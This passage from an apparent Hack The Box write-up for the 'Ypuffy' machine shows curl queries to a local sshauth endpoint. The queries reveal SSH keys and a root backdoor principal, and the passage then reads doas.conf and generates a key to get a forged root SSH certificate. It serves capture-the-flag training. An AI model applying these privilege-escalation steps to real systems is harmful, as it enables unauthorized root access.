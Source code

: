 We can read the public SSH keys by sending requests to the application. The GET parameters are the same as what was in the database file:

```
ypuffy$ curl "http://127.0.0.1/sshauth?type=keys&username=alice1978"
ssh-rsa AAAAB3NzaC1yc2EAAAABJQAAAQEApV4X7z0KBv3TwDxpvcNsdQn4qmbXYPDtxcGz1am2V3wNRkKR+gRb3FIPp+J4rCOS/S5skFPrGJLLFLeExz7Afvg6m2dOrSn02quxBoLMq0VSFK5A0Ep5Hm8WZxy5wteK3RDx0HKO/aCvsaYPJa2zvxdtp1JGPbN5zBAjh7U8op4/lIskHqr7DHtYeFpjZOM9duqlVxV7XchzW9XZe/7xTRrbthCvNcSC/SxaiA2jBW6n3dMsqpB8kq+b7RVnVXGbBK5p4n44JD2yJZgeDk+1JClS7ZUlbI5+6KWxivAMf2AqY5e1adjpOfo6TwmB0Cyx0rIYMvsog3HnqyHcVR/Ufw== rsa-key-20180716
ypuffy$ curl "http://127.0.0.1/sshauth?type=keys&username=bob8791"   
ypuffy$ curl "http://127.0.0.1/sshauth?type=keys&username=userca"  
ypuffy$ curl "http://127.0.0.1/sshauth?type=keys&username=root"   
```

We can only get the public key for user `alice1978`

Next, we can list the principal names using:

```
ypuffy$ curl "http://127.0.0.1/sshauth?type=principals&username=alice1978"
alice1978
ypuffy$ curl "http://127.0.0.1/sshauth?type=principals&username=bob8791"   
bob8791
ypuffy$ curl "http://127.0.0.1/sshauth?type=principals&username=userca"  
ypuffy$ curl "http://127.0.0.1/sshauth?type=principals&username=appsrv" 
ypuffy$ curl "http://127.0.0.1/sshauth?type=principals&username=root"   
3m3rgencyB4ckd00r
```

Interesting, there's a principal name for root called `3m3rgencyB4ckd00r`. If we could have the CA sign an SSH key with this principal name, we should be able to log in as `root` on the box.

OpenBSD has a `sudo` equivalent called `doas`:

```
ypuffy$ cat /etc/doas.conf                                                                                                                                                              
permit keepenv :wheel
permit nopass alice1978 as userca cmd /usr/bin/ssh-keygen
```

It seems we can run `ssh-keygen` as user `userca` without entering a password.

```
ypuffy$ ssh-keygen -t ecdsa 
Generating public/private ecdsa key pair.
Enter file in which to save the key (/home/alice1978/.ssh/id_ecdsa): /tmp/id_ecdsa
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /tmp/id_ecdsa.
Your public key has been saved in /tmp/id_ecdsa.pub.
The key fingerprint is:
SHA256:kbrMU2l1XcB9DEIKw58lsyYFz03VMLDuEPgQrXQWW3c alice1978@ypuffy.hackthebox.htb
The key's randomart image is:
+---[ECDSA 256]---+
|       .=o.o*+BBE|
|        oOB*.=.+=|
|       .=*B*+ . .|
|       .o*=+     |
|      . Soo .    |
|     o +   o     |
|      =     .    |
|       .         |
|                 |
+----[SHA256]-----+
```
